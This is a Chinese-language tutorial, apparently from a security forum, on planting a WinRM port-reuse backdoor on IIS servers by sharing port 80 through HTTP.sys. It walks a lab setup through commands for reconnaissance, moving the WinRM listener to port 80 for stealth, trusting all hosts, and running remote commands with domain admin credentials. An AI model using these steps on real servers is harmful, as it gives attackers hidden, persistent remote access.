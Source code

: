 ###  原理

 该手法的原理是**WinRM远程连接服务结合服务容器IIS重要组成驱动HTTP.sys（负责处理HTTP协议相关数据），HTTP.sys可以提供Port Sharing端口共享的功能**，如果有其他服务是基于该驱动进行，则符合条件的服务可以与IIS服务器的WEB端的80端口进行共享，而WinRM服务就是在HTTP.sys上注册了wsman的URL前缀，WinRM服务默认端口为5985。

****注意：这里的利用前提是IIS服务器下，因为HTTP.sys只存在于IIS这个服务器容器类型中，可共享的是80端口，共享时不影响原80端口的WEB服务。****

- - - - - -

###  两种情况下的端口复用后门

```php
情况1：IIS服务器主机原本已经存在WinRM服务并开启默认端口5985的监听，为了隐匿性，而采用新增监听80端口。

情况2：IIS服务器主机未启用WinRM服务，为了隐匿性，将WinRM远程连接默认端口5985修改成80端口。
```

测试环境如下：

```php
    Windows Server 2008 R2 Datacenter
    Windows 10 教育版
```

![图片10.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-c7c325b8f40699bc4047042d34b65d0cc8b85678.png)

![图片11.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-a628330a6bcd6f1e7f029779d68a7094eb9cf236.png)

第一步、在利用端口复用后门之前，我们先对服务器进行信息收集，执行以下命令：

```php
    winrm e winrm/config/listener    #查看WinRM服务监听端口信息
    netsh http show servicestate    #查看在HTTP.sys驱动上注册的URL前缀
```

![图片12.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-bebc3bda6375e7fd87ce6b631d224af30adc7846.png)

![图片13.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-e28d0e4a273579bd15fc5a517525071d3d7ad580.png)

在Server 2008版本下，已经开启了IIS服务80端口但没有开启WinRM服务，此时我们将按照情况②的手法来预留端口复用后门，修改WinRM服务默认监听端口。

```php
#快速配置WinRM服务
    winrm quickconfig -q

#修改WinRM服务默认端口为80端口
    winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```

![图片14.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-075262197f874f4b72d3b34d1ddf4f33854356d3.png)

![图片15.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-2a0ef6d3e8fadfa826a1a822eb3b1651fe498da2.png)

第二步、使用Win10对目标DC Win2008进行WinRM远程连接，这里用的是域管理账户，默认拥有整个域中的WinRM远程连接凭证。

```php
    winrm quickconfig -q    #快速配置WinRM服务
    winrm set winrm/config/Client @{TrustedHosts="*"}     #信任任意连接主机
    winrs -r:http://192.168.52.138:80 -u:god\liukaifeng01 -p:Aa123456 ipconfig
```
